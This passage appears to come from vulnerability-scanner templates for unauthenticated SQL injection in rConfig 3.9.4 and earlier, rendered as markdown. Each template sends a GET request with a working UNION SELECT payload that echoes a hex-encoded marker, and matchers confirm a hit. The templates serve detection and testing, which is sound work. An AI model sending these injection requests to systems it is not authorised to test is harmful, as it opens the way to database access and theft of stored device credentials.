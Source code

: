 ## Requests

- Method - GET

### URL

- {{BaseURL}}/compliancepolicies.inc.php?search=True&searchColumn=policyName&searchOption=contains&searchField=antani'+union+select+(select+concat(0x223e3c42523e5b70726f6a6563742d646973636f766572795d)+limit+0,1),NULL,NULL+--+

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. [project-discovery]
- part - body

---

# rConfig \<=3.9.4 - SQL Injection

## Description

- rConfig 3.9.4 and prior has unauthenticated snippets.inc.php SQL injection. Because nodes' passwords are stored in cleartext by default, this vulnerability leads to lateral movement, granting an attacker access to monitored network devices.
- severity - critical
- tags - cve,cve2020,rconfig,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/snippets.inc.php?search=True&searchField=antani'+union+select+(select+concat(0x223e3c42523e5b70726f6a6563742d646973636f766572795d)+limit+0,1),NULL,NULL,NULL+--+&searchColumn=snippetName&searchOption=contains

### Matchers

**Type - status**

- status
  1. 200
